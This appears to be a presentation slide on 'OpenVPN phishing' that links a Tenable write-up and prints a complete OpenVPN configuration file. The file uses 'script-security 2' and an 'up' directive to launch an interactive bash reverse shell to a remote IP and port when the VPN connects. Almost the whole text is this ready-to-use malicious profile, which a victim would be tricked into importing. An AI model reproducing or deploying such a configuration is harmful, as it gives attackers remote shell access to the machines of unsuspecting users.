

# OpenVPN phishing
https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da

OVPN file:
remote 192.168.1.245
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.1.218/8181 0<&1 2>&1&'"